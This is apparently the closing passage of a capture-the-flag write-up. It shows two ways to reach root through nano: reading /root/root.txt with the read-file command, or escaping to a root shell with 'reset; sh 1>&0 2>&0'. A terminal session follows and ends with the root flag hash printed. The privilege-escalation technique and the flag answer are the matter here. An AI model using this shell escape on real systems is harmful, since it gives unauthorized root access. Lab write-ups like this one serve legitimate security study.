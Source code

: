 1. We can either use nano on the file then `^R` and then simply type `/root/root.txt` and teh flag pops up.

2. Or we can get a shell by doing the above command involving `reset`.
```bash
Command to execute: reset; sh 1>&0 2>&0# ls                                                                                                                                                                                                
user.txtelp                                                                                                          ^X Read File
# cd root                                                                                                            M-F New Buffer
sh: 2: cd: can't cd to root
# cd /root
# ls
root.txt
# type root.txt
root.txt: not found
# cat root.txt
2f907ed450b361b2c2bf4e8795d5b561
```
Thanks for reading hope you enjoyed.






